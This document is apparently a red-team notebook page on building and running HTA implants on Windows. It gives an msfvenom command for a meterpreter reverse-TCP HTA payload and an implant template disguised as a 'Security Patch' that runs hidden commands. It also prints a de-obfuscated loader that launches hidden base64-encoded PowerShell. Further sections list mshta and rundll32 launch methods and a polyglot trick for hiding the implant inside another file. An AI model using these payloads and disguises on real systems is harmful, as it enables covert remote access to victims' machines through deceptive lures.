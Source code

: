 # HTA

## 01 - Generate via `msfvenom`

> [!INFO] Payload's Limitation
> It couldn't handle a command execution that exceeded 8192 characters.. Check for more details about [[Command Prompt|command prompt]] (`cmd.exe`).
 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f hta-psh -o implant.hta
```

## 02 - HTA Templates

HTA implant template.

```html
<html>
	<head>
		<title>
			Security Patch
		</title>
	</head>
	<body>
		<p>Installing security patch...</p>
	</body>
	<script language="VBScript">
	Function Execute()
		Set shell = CreateObject("WScript.Shell")
		shell.Run "<commands>", 0
	End Function

	Execute
	</script>
</html>
```

This is a de-obfuscated format of `hta-psh` in `msfvenom`. Refer to this [[03 - Malware Development/Techniques/Implant Execution/Command Execution/Execute Commands/Windows/WinAPI|section]] related to command execution using `powershell.exe`.

```html
<script language="VBScript">
  window.moveTo -4000, -4000
  Set Shell = CreateObject("WScript.Shell")
  Set Program = CreateObject("Scripting.FileSystemObject")
  For each path in Split(Shell.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If Program.FileExists(path + "\..\powershell.exe") Then
      Shell.Run "powershell -nop -w hidden -e <base64_encoded_powershell_script>", 0
      Exit For
    End If
  Next
  window.close()
</script>
```

## 03 - Execute Implant

### 3.1 - `mshta.exe`

```
C:\> mshta.exe vbscript:Execute("MsgBox(""Would you like to update Windows?"", 64, ""Example"")(window.close)")

C:\> mshta.exe javascript:alert("Please Install Required Update")
```

To execute the implant.

```
C:\> mshta.exe %CD%\implant.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\implant.hta
```

### 3.2 - `rundll32.exe`

```
C:\> rundll32.exe url.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.hta"

C:\> rundll32.exe url.dll,FileProtocolHandler "<drive_letter>:\absolute\path\to\implant.hta"

C:\> rundll32.exe url.dll,OpenURLA "<drive_letter>:\absolute\path\to\implant.hta"

C:\> rundll32.exe shdocvw.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.hta"

C:\> rundll32.exe ieframe.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.hta"
```

## 04 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.hta` implant.

Bind the binary files together.

```
C:\> copy /y /b filename.extension+implant.hta hidden_implant.extension
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.extension+implant.hta hidden_implant.extension
```

Then execute it

```
C:\> mshta.exe %CD%\hidden_implant.extensions
```

---
## References

### Backlinks

- [[Rundll32]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

### LOLBAS

- [LOLBAS: Mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)

### Red Team Notes

- [Red Team Notes: MSHTA](https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution)

### DMCXBlue

- [DMCXBlue: MSHTA](https://dmcxblue.gitbook.io/red-team-notes/execution/mshta)

### Sevagas

- [Sevagas: Hacking around HTA files](https://blog.sevagas.com/?Hacking-around-HTA-files)